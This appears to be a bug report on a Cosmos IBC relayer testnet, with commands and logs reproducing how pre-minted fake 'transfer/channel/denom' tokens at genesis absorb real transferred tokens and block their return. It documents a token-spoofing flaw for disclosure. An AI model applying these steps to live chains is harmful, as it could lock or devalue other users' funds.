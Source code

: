 
# Invalidate REAL tokens by minting fake tokens

## Steps to reproduce
###

### 1. Setup the chain with initial tokens to match with channel names in the path. Let's say the channel name is "regentestchan" and the tokens on destination chain are "doubloons".

```
...
gaiacli gaiad add-genesis-account gozkey 10000000000$DENOM,1000000000000000transfer/regentestchan/doubloons
...
```
This will initialize the account with 2 tokens, one is default chain specific token and other is a fake token to trap destination tokens.

### 2. Initialize the relayer and configure chains, keys
### 3. Create a new path and use "regentestchan" as channel name
 
  ```
  rly pth add regengoz-3 gameofzoneshub-3 regenpath  
  ```
 
*Note: to keep it simple, you can just use "regentestchan" for every input (client, connection and channels). Port is "transfer"*
  
  How the config looks like:
  ```
    Path "regenpath" strategy(naive):
    SRC(regen-3)
    ClientID:     regentestchan
    ConnectionID: regentestchan
    ChannelID:    regentestchan
    PortID:       transfer
    DST(gameofzoneshub-3)
    ClientID:     regentestchan
    ConnectionID: regentestchan
    ChannelID:    regentestchan
    PortID:       transfer
  ```

### 4. Link the path
  ```
  rly tx link regenpath
  ```
  
### 5. Now, query the initial balances
  ```
  root@regen:~# rly q bal regengoz-3
  1000000000000000transfer/regentestchan/doubloons,999999999925000utree

  root@regen:~# rly q bal gameofzoneshub-3
  9999996500doubloons
  ```

### 6. Make a transfer of 10000doubloons from destination chain (hub) to source. 

  ```
  root@regen:~# rly tx transfer gameofzoneshub-3 regengoz-3 10000doubloons false $(rly ch addr regengoz-3)
  I[2020-06-05|09:11:42.089] ✔️ [gameofzoneshub-3]@{46346} - msg(0:transfer) hash(3544031185C720B32AF33F1E5B63F6A12E1C052C626258B505DDE216C73B44D8) 
  I[2020-06-05|09:11:51.962] ✔️ [regengoz-3]@{166} - msg(0:update_client,1:ics04/opaque) hash(D4F98CB4BB85E4D2F0C3B8EC3B9A6517ADA11BC4A319F1FEC6822F7A302A6526) 
  ```

### 7. Query balances
```
  root@regen:~# rly q bal gameofzoneshub-3
  9999986000doubloons
  root@regen:~# rly q bal regengoz-3
  1000000000010000transfer/regentestchan/doubloons,999999999920000utree
```
all looks good, the transferred tokens are appended to initially created fake tokens.

### 8. Now transfer back the tokens from source to chain (i.e., 10000doubloons)

  ```
  root@regen:~# rly tx transfer regengoz-3 gameofzoneshub-3 10000doubloons false $(rly ch addr gameofzoneshub-3)
  I[2020-06-05|09:12:52.274] ✘ [regengoz-3]@{181} - msg(0:transfer) err(sdk:5:failed to execute message; message index: 0: 0doubloons is smaller than 10000doubloons: insufficient funds) 
  Error: failed to send first transaction
  ```

tried with source: true too, just to cross check
  ```
  root@regen:~# rly tx transfer regengoz-3 gameofzoneshub-3 10000doubloons true $(rly ch addr gameofzoneshub-3)
  I[2020-06-05|09:12:52.274] ✘ [regengoz-3]@{178} - msg(0:transfer) err(sdk:5:failed to execute message; message index: 0: 0doubloons is smaller than 10000doubloons: insufficient funds) 
  Error: failed to send first transaction
  ```
  
This is failing. We are unable to transfer tokens back to the hub. It says it has 0 funds. Can't even transfer single token from zone (source) to hub (dest).
